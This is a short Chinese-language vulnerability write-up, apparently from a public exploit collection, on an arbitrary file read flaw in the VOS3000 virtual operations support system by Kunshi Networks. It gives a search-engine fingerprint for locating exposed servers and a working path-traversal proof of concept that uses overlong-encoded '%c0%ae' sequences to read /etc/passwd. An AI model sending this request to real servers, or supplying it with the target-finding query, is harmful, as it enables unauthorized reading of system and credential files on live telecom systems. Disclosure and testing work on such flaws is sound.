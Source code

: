 # 昆石网络 VOS3000虚拟运营支撑系统 %c0%ae%c0%ae 任意文件读取漏洞

## 漏洞描述

昆石网络 VOS3000虚拟运营支撑系统 通过 %c0%ae%c0%ae 等字符绕过检测，可导致任意文件读取漏洞

## 漏洞影响

```
昆石网络 VOS3000虚拟运营支撑系统
```

## 网络测绘

```
app="VOS-VOS3000"
```

## 漏洞复现

登录页面

![image-20220525144202606](images/202205251442673.png)

验证POC

```
/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
```

![](images/202205251443278.png)